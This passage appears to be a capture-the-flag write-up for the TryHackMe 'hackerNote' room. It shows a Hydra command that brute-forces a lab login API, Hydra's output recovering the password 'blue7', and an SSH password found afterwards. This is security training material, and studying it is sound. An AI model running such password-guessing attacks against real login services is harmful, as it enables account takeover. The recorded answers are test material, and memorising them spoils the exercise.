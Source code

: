 The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

- Request Body - JSON
  `{"username":"admin","password":"admin"}`
- Request Path -
  `/api/user/login`
- Error message for incorrect logins -
  `"Invalid Username Or Password"`

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

`hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>`

Form the hydra command to attack the login API route

`No answer needed`

How many passwords were in your wordlist?

```
kali@kali:~/CTFs/tryhackme/hackerNote$ wc wordlist.txt
 180  180 1290 wordlist.txt
```

`180`

What was the user's password?

```
kali@kali:~/CTFs/tryhackme/hackerNote$ hydra -l james -P wordlist.txt 10.10.24.100 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 22:10:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.24.100:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.24.100   login: james   password: blue7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 22:12:03
```

`blue7`

Login as the user to the platform

`No answer needed`

What's the user's SSH password?

```
My SSH details

So that I don't forget, my SSH password is dak4ddb37b
```
